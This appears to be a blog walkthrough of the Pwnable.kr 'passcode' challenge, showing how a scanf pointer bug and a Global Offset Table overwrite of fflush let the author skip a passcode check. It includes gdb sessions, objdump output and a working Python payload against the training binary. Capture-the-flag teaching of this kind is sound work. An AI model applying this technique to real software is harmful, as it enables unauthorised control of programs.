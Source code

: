 ```yaml
---
layout: post
title: Pwnable.kr Passcode Walk-through
---
```


## Pwnable.kr Passcode Walk-though
Here is a walk-through of the passcode challenge on [Pwnable.kr](http://pwnable.kr/play.php).

After logging into the remote server, we can look at the C source. The authentication check seems pretty simple:

    if (passcode1 == 338150 && passcode2 == 13371337) {
        printf("Login OK!\n");
        system("/bin/cat flag");
    }

Therefore if we can put the correct magic numbers into the two passcode integers the flag will be printed. It can't be 
that simple, can it? Let's run the program and see:

    > ./passcode
    enter you name : matthew
    Welcome matthew!
    enter passcode1 : 338150
    Segmentation fault

Clearly not. The program crashes even with reasonable inputs...

There is a clue in the challenge description that the C program produces compiler warnings. Let's try compiling and
see if that provides any insights. Running:

    gcc passcode.c

fails to create an output file due to permissions, but does provide the following warnings:

    passcode.c: In function ‘login’:
    passcode.c:9:8: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
      scanf("%d", passcode1);
            ^
    passcode.c:14:15: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
             scanf("%d", passcode2);
                   ^

Well, here's the cause of the segmentation fault. The passcodes are being written to arbitrary memory addresses.
This suggests that if we could somehow control these memory addresses we could populate them with data of our choice.

Taking another look at the code we can see that the name input is 100 bytes long. It can't be overflowed, however, due
to the `scanf` format string. Nor is there a format string vulnerability in the subsequent `printf`:

    char name[100];     
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);

OK then. Let's just fill the buffer with 100 'A's and use `gdb` to see what happens:

    > python -c "from __future__ import print_function ; print('A'*100, end='')" > /tmp/pcex123
    gdb -q passcode
    (gdb) set disassembly intel
    (gdb) b login
    (gdb) run < /tmp/pcex123
    (gdb) layout asm

The passcode addresses can be seen looking at the disassembly of the `login` function:

    0x8048577 <login+19>    mov    eax,0x8048783
    0x804857c <login+24>    mov    edx,DWORD PTR [ebp-0x10]
    0x804857f <login+27>    mov    DWORD PTR [esp+0x4],edx
    0x8048583 <login+31>    mov    DWORD PTR [esp],eax
    0x8048586 <login+34>    call   0x80484a0 <__isoc99_scanf@plt>

and:

    0x80485a5 <login+65>    mov    eax,0x8048783
    0x80485aa <login+70>    mov    edx,DWORD PTR [ebp-0xc]
    0x80485ad <login+73>    mov    DWORD PTR [esp+0x4],edx
    0x80485b1 <login+77>    mov    DWORD PTR [esp],eax
    0x80485b4 <login+80>    call   0x80484a0 <__isoc99_scanf@plt>

The only difference between these two blocks of code is the value placed onto the stack from `edx`. For `passcode1` 
it's the content of `ebp-0x10` and for `passcode2` it's the content `ebp-0xc`. The fact that these two stack addresses
are only 4 bytes apart (the size of an `int`) corroborates that these are the passcodes.

Looking at the content of these addresses:

    (gdb) x/x $ebp-0x10
    0xff8e84d8:     0x41414141
    (gdb) x/x $ebp-0xc
    0xff8e84dc:     0xad1ce200

we can see that `passcode1` has been written into with 'A's (0x41 is the ASCII hex value of 'A'), but `passcode2` has not.

So, we can manipulate the value of `passcode1` but not `passcode2`. That suggests that we need to somehow bypass the
expression in the `if` statement which checks the passcodes. We can't patch the binary, though, since we don't have
permission and the text (code) segment is read-only. What we need is a way to modify data that controls the execution flow.

The Global Offset Table (GOT) holds memory addresses of functions in shared libraries which a process links to
at runtime. Since the memory addresses of the shared functions are not known when the process is compiled, the GOT is
updated during process start-up. This means it is writable by the process and a useful control point for us.

Helpfully (!) there is a library call to `fflush` right after the `scanf` for `passcode1`:

    scanf("%d", passcode1);
    fflush(stdin);

By running:

    objdump -R passcode

we can see that the address of the entry for `fflush` is 0x0804a004:

    passcode:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE 
    08049ff0 R_386_GLOB_DAT    __gmon_start__
    0804a02c R_386_COPY        stdin@@GLIBC_2.0
    0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
    0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0 <----------------
    0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
    0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
    0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
    0804a014 R_386_JUMP_SLOT   __gmon_start__
    0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
    0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
    0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7

And looking at the disassembly of the `login` function with:

    objdump -d -Mintel passcode

    ...
    80485e3:       c7 04 24 af 87 04 08    mov    DWORD PTR [esp],0x80487af
    80485ea:       e8 71 fe ff ff          call   8048460 <system@plt>
    ...

we can see that the address we want to write (to jump over the `if` check) is 0x080485e3, which is 134514147 in decimal.

Armed with those two addresses and taking into account that x86 is little-endian, let's try out our exploit:

    python -c "from __future__ import print_function ; print('A'*96 + '\x04\xa0\x04\x08' + '134514147', end='')" | ./passcode

And we capture the flag!
